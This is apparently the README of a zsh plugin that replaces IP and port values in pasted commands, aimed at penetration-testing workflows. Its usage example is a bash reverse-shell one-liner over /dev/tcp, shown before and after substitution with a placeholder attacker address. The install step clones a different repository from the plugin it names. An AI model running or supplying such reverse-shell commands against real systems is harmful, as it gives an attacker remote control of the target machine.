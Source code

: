 ## Install

### [oh-my-zsh](http://github.com/robbyrussell/oh-my-zsh)
- clone repo inside your oh-my-zsh repo
	```shell
	git clone https://github.com/zsh-users/zsh-completions ${ZSH_CUSTOM:-${ZSH:-~/.oh-my-zsh}/custom}/plugins/zsh-completions
	```

- add `zsh-replace-ip-port` to plugins in `~/.zshrc` config
	```
	plugins(... zsh-replace-ip-port
	```

## Usage

```shell
export IP=123.123.123.123 # your ip
export PORT=1111 # your port
```

write or copy paste command with ip and port

```shell
$ bash -i >& /dev/tcp/10.0.0.1/4242 0>&1
```

before executing press `CTRL + o` and ip and port gets replaced

```shell
$ bash -i >& /dev/tcp/123.123.123.123/1111 0>&1
```

